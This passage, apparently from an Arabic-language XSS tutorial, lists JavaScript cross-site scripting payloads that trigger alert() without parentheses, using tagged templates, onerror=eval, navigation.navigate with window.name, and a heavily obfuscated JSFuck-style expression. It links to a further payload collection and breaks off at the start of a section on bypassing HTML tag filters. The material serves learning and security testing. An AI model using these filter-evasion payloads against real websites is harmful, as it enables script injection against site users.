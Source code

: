 ```javascript
location.protocol='javascript:'



[].sort.call`${alert}23`

[].map.call`${eval}\\u{61}lert\x2823\x29`



window.name='javascript:alert(23)';
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`;


throw onerror=eval,Error`alert\x2823\x29`



[][[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]][[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]]`$${[!{}+[]][+[]][+!+[]]+[!{}+[]][+[]][+!+[]+!+[]]+[!{}+[]][+[]][+!+[]+!+[]+!+[]+!+[]]+[!![]+[]][+[]][+!+[]]+[!![]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[+!+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]}$```//Function(alert(1))
```


#### في شرح اكثر وبايلود اكثر عن الجزئيه دي في الموقع [ده  ](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)



----


----
## 7️⃣ لو الموقع بيعمل HTML Filter يعني بيلغي ال tag اللي ممكن استخدمها  
{ #XSS_Idea_for_script_tag }
#### الشرح :
